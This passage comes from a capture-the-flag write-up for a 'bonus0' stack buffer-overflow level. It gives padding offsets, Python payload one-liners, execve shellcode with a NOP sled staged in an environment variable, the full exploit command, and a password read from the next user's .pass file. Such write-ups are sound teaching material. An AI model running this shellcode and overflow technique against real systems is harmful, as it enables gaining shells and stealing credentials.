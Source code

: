 This confirms that characters at positions 10-13 in our second input overwrite the return address. Therefore, we need:

- 9 bytes of padding
- 4 bytes for our shellcode address
- Additional padding bytes to ensure reliable execution

Through further testing, we discovered an additional requirement: the second input needs to be at least 20 bytes in total (including our 9-byte padding, 4-byte address, and at least 7 additional bytes) for the exploit to work reliably.

```bash
# This failed (only 6 padding bytes after address)
python -c "print 'B'*4095 + '\n' + 'A'*9 + '\xa8\xff\xff\xbf' + 'A'*6" > /tmp/myexploit

# This worked (7 padding bytes after address)
python -c "print 'B'*4095 + '\n' + 'A'*9 + '\xa8\xff\xff\xbf' + 'A'*7" > /tmp/myexploit
```

This pattern-based approach gives us a precise understanding of how to position our shellcode address to reliably control program execution.

## Final Exploit

Putting it all together:

```bash
# Set up shellcode in environment variable
SHELLCODE=$(python -c 'print "\x90"*50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

# Find shellcode address in clean environment
env -i SHELLCODE=$SHELLCODE /tmp/get_shellcode_addr
# SHELLCODE address: 0xbfffffa8

# Create exploit input with at least 20 bytes for second input (9+4+7=20)
python -c "print 'A'*4095 + '\n' + 'B'*9 + '\xa8\xff\xff\xbf' + 'C'*7" > /tmp/payload

# Execute exploit
(cat /tmp/payload; cat) | env -i SHELLCODE=$SHELLCODE ./bonus0
```

## Getting the Password

After executing the exploit, we gained access to the `bonus1` user and retrieved the password:

```bash
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Moving to Next Level

Use the password to log in as `bonus1` and proceed to the next challenge.

